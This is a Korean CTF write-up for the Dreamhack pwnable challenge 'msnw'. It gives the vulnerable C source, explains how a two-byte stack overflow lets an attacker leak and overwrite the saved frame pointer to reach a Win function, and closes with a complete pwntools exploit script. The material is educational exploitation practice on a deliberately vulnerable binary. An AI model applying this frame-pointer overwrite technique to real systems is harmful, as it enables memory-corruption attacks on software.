 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN msnw"
excerpt: "드림핵 포너블 msnw 문제풀이"
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2023-02-07 15:30
---
```


드림핵 크리스마스 CTF에 출제된 포너블 문제다. 전체적인 환경에 대한 정보는 따로 주어지지 않았고, 바이너리, 소스코드, 더미 플레그가 제공되었다.

우선 먼저 코드를 살펴보자.

```c
/* msnw.c
 * gcc -no-pie -fno-stack-protector -mpreferred-stack-boundary=8 msnw.c -o msnw
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define MEONG 0
#define NYANG 1

#define NOT_QUIT 1
#define QUIT 0

void Init() {
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);
    setvbuf(stderr, 0, _IONBF, 0);
}

int Meong() {
    char buf[0x40];

    memset(buf, 0x00, 0x130);

    printf("meong 🐶: ");
    read(0, buf, 0x132);

    if (buf[0] == 'q')
        return QUIT;
    return NOT_QUIT;
}

int Nyang() {
    char buf[0x40];

    printf("nyang 🐱: ");
    printf("%s", buf);

    return NOT_QUIT;
}

int Call(int animal) {
    return animal == MEONG ? Meong() : Nyang();
}

void Echo() {
    while (Call(MEONG)) Call(NYANG);
}

void Win() {
    execl("/bin/cat", "/bin/cat", "./flag", NULL);
}

int main(void) {
    Init();

    Echo();
    puts("nyang 🐱: goodbye!");

    return 0;
}
```

코드를 살펴보면 Meong() 함수에서 2바이트 오버플로우가 가능한 것을 알수 있다. 따라서 SFP 변조를 통해 코드의 실행 흐름일 바꿀 수 있을것 같다. Win 함수가 실행되면 flag가 출력되는것 같다.

우선 Meong() 함수에서 \n포함 0x130 길이의 문자열을 입력하면 이 값을 그대로  Nyang()함수에서 사용하기 때문에 printf를 통해 SFP 하위 2자리 값을 얻을 수 있다.

버퍼의 크기는 0x130이고 이를 0x10으로 나누면 13이니 버퍼에 Win 함수 값으로 덮어버렸다. 그렇게 되면 그냥 버퍼에 존재하는 값만 잘 맞춰서 sfp를 조작하면 Win함수로 갈수 있다. 우선 SFP 값을 릭해서 나온 값으로 gdb를 통해 buf 문자열이 포함되는 위치를 찾는다. 버퍼에는 Win 함수 주소값이 연속적으로 들어있어 어느 직점을 찍던 맨 뒷자리가 0 아님 8로 끝나면 코드는 성공한다. 나는 buf의 맨 처음 지점을 계산해 -8을 계산해 sfp를 오버라이트 했다. sfp 공격은 공격자가 입력한 값 +8 의 위치한 코드를 실행하기 때문에 이런 점만 맞춰주면 Win 함수를 실행할 수 있다. (32비트는 +4한 부분을 실행한다. 메모리 사이즈에 따라 64비트는 8, 32비트는 4 만큼의 차이가 있다.)


```python
from pwn import *
context.update(arch='amd64', os='linux')
#c = remote("host3.dreamhack.games", 17108);
c = process("./msnw")
#libc = ELF("./libc.so.6")
#libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")

execFlag = 0x40135b
payload = p64(execFlag)
while(len(payload)!=0x130):
    payload = payload+p64(execFlag)

c.recvuntil("meong 🐶: ")
pause()
c.sendline("a"*0x12f)

#print(payload)

c.recvuntil(b"\n")
leak1 = c.recv(2)
leak2 = leak1+b"\x00\x00\x00\x00\x00\x00"
print("leak : "+str(hex(u64(leak2))))
print("leak : "+str(leak2))
c.recvuntil(": ")

leak = int(hex(u64(leak2)), 16)-0x200-0x130
print(hex(leak))

#payload += b"a"*(0x130-len(p64(execFlag)))
#rsp 0x7fffffffde00
payload = payload + p64(leak-0x8)[:-6]
print(payload)
c.sendline(payload)
pause()
print(c.recvall())
```